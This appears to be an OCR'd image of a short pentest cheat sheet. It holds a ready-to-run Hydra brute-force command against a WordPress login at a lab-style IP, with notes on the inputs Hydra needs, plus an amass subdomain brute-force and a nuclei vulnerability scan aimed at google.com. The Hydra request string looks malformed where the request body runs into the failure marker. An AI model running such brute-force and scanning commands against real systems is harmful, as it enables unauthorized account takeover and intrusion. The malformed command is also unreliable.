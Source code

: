 ```bash

# Hydra

# Information Required for Hydra Brute Force:-

# 1. Login or Wordlist for Usernames - admin

# 2. Password or Wordlist for Passwords - usr/share/wordlists/metasploit/http_default_pass.txt

# 3. IP Address or Domain of the Target - 10.10.10.129

# 4. HTTP Method (POST/GET) - POST

# 5. Path to the Login Page - http://10.10.10.129/secret/wp-login.php

# 6. Request body for Username/Password — log=jkdsakjdbnsa&pwd=dsadasd&wp-submit=Log+In&redirect_to=http%3A%2F%2Fvtcsec%2Fsecret%2Fwp-admin%2F&testcookie=1

# 7. A Way to Identify Failed/Successful Attempts — incorrect

# Format of the Hydra Syntax:-
# sudo hydra <Username/List> <IP> <Method> "<Path>:<Request Body>:<Fail or Success Identifier>"

sudo hydra -l admin -P /usr/share/wordlists/metasploit/http_default_pass.txt 10.10.10.129 http-post-form "/secret/wp-login.php:log=admin&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fvtcsec%2Fsecret%2Fwp-admin%2F&testcookie=1incorrect:F=incorrect"

# Subdomain enumeration

amass enum -brute -d website

# Vul Scanner
nuclei -u <https://google.com> -t vulnerabilities 

```
